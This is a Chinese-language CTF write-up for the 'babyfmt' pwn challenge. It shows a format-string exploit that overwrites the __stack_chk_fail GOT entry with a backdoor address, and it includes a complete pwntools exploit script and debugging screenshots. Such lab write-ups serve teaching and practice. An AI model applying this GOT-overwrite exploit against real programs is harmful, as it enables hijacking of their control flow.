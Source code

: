   ![main.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbtaywwoj30po08ft96.jpg)

  看了`main`函数发现并没有输入不合法这种情况。困扰了很久。后面才知道用题目给的`__stack_chk_fail`这个函数。利用它在没开始栈溢出之前把它的地址改成我们的**backdoor函数**的地址就可以在栈溢出触发后调用到我们的**backdoor函数**里去。

  ![strings.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbttr50gj30oi0bkq3z.jpg)![backdoor](F:\Hgame\2019\pwn\level2\babyfmt\tu\backdoor.jpg)

* 下一个步骤就是寻找format在栈上的参数位置。利用read将其改造写入。

  ![找到format的栈参数位.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbu8cnjyj30mo03374l.jpg)

  可以看到位置在参数的第6个。

* exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(log_level = "debug",arch = "amd64",os = "linux")

io = process("./babyfmtt")
#io = remote("118.24.3.214",11001)
elf = ELF("./babyfmtt")

stack_fail = elf.got["__stack_chk_fail"]
backdoor = 0x40084e

payload = flat(['%',str(backdoor & 0xffff),"c%8$hn",'saob0',stack_fail,'a'* 0x60])#由于这里在进行$hn之前加了一个参数，以及后面的函数地址，导致需要八个参数的填充位置。所以是%8$hn，payload的写法参照wiki上的排序类型。

io.recvuntil("It's easy to PWN")
#gdb.attach(io)
io.sendline(payload)

io.interactive()


puase(2)
io.close()
```

调试部分

![传入payload.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbuye7erj30ps0bbwfx.jpg)

读入payload。

![栈中payload.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1gppbvbutwej30x902haae.jpg)

栈中的payload。


